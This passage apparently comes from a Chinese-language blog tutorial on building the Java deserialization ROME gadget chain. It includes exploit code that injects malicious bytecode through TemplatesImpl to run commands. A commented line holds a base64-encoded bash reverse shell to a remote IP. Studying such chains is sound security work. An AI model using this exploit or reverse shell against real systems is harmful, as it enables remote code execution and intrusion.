 果不其然，这个构造函数是可以帮我们省去一些代码量的，后续可能会用到，先 cy 一下。

继续分析，我们应该是去看谁调用了 `toString()` 方法，想到 `toString()` 方法，就想起来之前有个 `toString()` 的坑让人非常印象深刻，找了找，是在 CC6 链子里面的，放个传送门 ———— [Java反序列化Commons-Collections篇03-CC6链](http://localhost:4000/2022/06/11/Java反序列化Commons-Collections篇03-CC6链/)

- 所以此处根据 CC6 的链子分析，后半段就是 URLDNS 链了，简单看一下

后半段是 HashMap 的链子，尾部是到 `hashCode()` 方法，

JAVA

```
xxx.readObject()
    HashMap.put()
    HashMap.hash()
        xxx.hashCode()
```

我们需要找到 `hashCode()` —– `toString()` 中间可利用的一条 sink，这里如果要自己找，难度还是比较大的，就直接拿现成的啦 ~

中间的 sink 是 `EqualsBean` 类，去到 `EqualsBean` 类里头看一看

![img](https://drun1baby.top/2022/10/10/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BROME%E9%93%BE/EqualsBean.png)

`beanHashCode()` 是一个完美契合我们需求的方法，这条链子到这儿就完成了

画个流程图总结一下 ROME 链子

![img](https://drun1baby.top/2022/10/10/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BROME%E9%93%BE/ROME.png)

### ROME 链 EXP 编写

- 先写个 TemplatesImpl 的链子兜个底

JAVA

```
public class TemplatesImplEXP {  
    public static void main(String[] args) throws Exception {  
        TemplatesImpl templates = new TemplatesImpl();  
        setFieldValue(templates,"_name","Drunkbaby");  
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());  
        Class c = templates.getClass();  
        Field byteCodesField = c.getDeclaredField("_bytecodes");  
        byteCodesField.setAccessible(true);  
        byte[] evil = getTemplatesImpl("Calc");  
        byte[][] codes = {evil};  
        byteCodesField.set(templates,codes);  
  
        templates.newTransformer();  
    }  
  
    public static byte[] getTemplatesImpl(String cmd) {  
        try {  
            ClassPool pool = ClassPool.getDefault();  
            CtClass ctClass = pool.makeClass("Evil");  
            CtClass superClass = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");  
            ctClass.setSuperclass(superClass);  
            CtConstructor constructor = ctClass.makeClassInitializer();  
            constructor.setBody(" try {\n" +  
                    " Runtime.getRuntime().exec(\"" + cmd +  
                    "\");\n" +  
                    " } catch (Exception ignored) {\n" +  
                    " }");  
            // "new String[]{\"/bin/bash\", \"-c\", \"{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny4xMC4xMS4yMzEvOTk5MCAwPiYx}|{base64,-d}|{bash,-i}\"}"  
 byte[] bytes = ctClass.toBytecode();  
```